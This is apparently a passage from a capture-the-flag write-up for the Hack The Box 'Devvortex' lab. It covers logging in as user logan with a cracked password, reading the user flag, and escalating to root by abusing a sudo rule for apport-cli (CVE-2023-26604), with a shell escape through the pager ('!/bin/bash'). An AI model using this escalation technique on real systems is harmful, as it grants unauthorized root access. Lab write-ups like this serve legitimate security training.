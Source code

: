 The password we got from the hash actually allows us to change our user to logan!

```bash
www-data@devvortex:~/dev.devvortex.htb/administrator$ su logan
Password: 
logan@devvortex:/var/www/dev.devvortex.htb/administrator$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:/var/www/dev.devvortex.htb/administrator$ whoami
logan
logan@devvortex:/var/www/dev.devvortex.htb/administrator$
```

We now can read the user flag!

```bash
logan@devvortex:~$ cat user.txt 
4e0d6ed7e2345d6*******
logan@devvortex:~$
```

## Privlege Escalation to Root

Now that we have access to our user account, let's get root. Let's check what logan has privs to run as root:

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Sorry, try again.
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$ 
```

A quick google search for vulnerabilities for this binary returns CVE-2023–26604. CVE-2023–26604, according to Suse Linux, concerns, "systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output."

To exploit this all we need to do is run apport-cli with the __-f__ argument and then when you are asked if you would like to view report, hit __v__ and then enter __!/bin/bash__ to spawn a shell as root.

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli
No pending crash reports. Try --help for more information.
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
```